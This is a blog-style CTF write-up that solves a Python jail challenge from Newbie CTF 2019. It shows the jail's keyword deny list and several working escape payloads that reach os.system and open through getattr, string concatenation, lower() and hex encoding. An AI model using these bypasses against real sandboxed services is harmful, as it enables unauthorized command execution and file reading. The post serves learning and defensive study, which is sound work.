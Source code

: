 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019) - DSPYT"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
time_read: "5 min"
tags: ["Python", "ctf", "ethical-hacking"]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

The jail is basically a set of python code that is executed on the python process when the user executes certain commands, in this case entering specific lines of text. This is possible since Python allows passing parameters to the application. In this particular case, the script only checks if the command passed is not banned.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

```bash
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
print(“Hi! Welcome to pyjail!”)
print(“========================================================================”)
print(open(__file__).read())
print(“========================================================================”)
print(“RUN”)
text = input(‘>>> ‘)
for keyword in [‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’]:
if keyword in text:
print(“No!!!”)
return;
else:
exec(text)
if __name__ == “__main__”:
main()
========================================================================
RUN
```

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

```bash
>>> print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> print(getattr(getattr(globals()[‘__builtins__’], ‘__im’+’port__’)(‘o’+’s’), ‘sys’+’tem’)(‘cat home/python_jail/flag’))

KorNewbie{H311oh0w@r3_y0u_d0lng?}
```

Another solution to the Capture the Flag challenge is to use lower() string method:

```bash
>>>__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)
```

We could also encode the strings to display the hidden key:

```bash
>>> print(getattr(getattr(getattr(main, ‘__globals__’)[‘__builtins__’], ‘\x6f\x70\x65\x6e’)(‘/home/python_jail/flag’, ‘rb’), ‘\x72\x65\x61\x64’)())
b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
